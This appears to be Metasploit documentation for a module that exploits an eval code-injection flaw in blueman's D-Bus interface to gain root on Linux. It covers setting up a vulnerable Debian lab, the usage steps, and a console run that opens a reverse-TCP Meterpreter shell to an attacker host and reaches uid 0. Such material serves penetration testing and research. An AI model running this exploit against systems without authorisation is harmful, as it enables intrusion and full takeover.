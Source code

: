 ## Description

  This module attempts to gain root privileges by exploiting a Python
  code injection vulnerability in blueman versions prior to 2.0.3.

  The `org.blueman.Mechanism.EnableNetwork` D-Bus interface exposes the
  `set_dhcp_handler` function which uses user input in a call to `eval`,
  without sanitization, resulting in arbitrary code execution as root.

  This module has been tested successfully with blueman version 1.23
  on Debian 8 Jessie (x64).


## Vulnerable Application

  This module has been tested successfully with:

  * blueman version 1.23 on Debian 8 Jessie (x64)

  Old versions of the `blueman` package are available in [Debian snapshots](https://snapshot.debian.org/).

  The following `/etc/apt/sources.list` configuration will allow a vulnerable
  version of the `blueman` package to be installed:
 
  ```
  deb [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  deb-src [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  ```

  Update the package sources with `apt-get -o Acquire::Check-Valid-Until=false update`

  The package can be installed with `apt-get install blueman`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc 
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DKJWL0TG7sm0M5' (249 bytes) ...
  [*] Executing payload...
  [*] Sending stage (861348 bytes) to 172.16.191.156
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.156:58863) at 2018-12-24 02:44:25 -0500
  [+] Deleted /tmp/.DKJWL0TG7sm0M5

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-8-1-x64.local
  OS           : Debian 8.1 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```


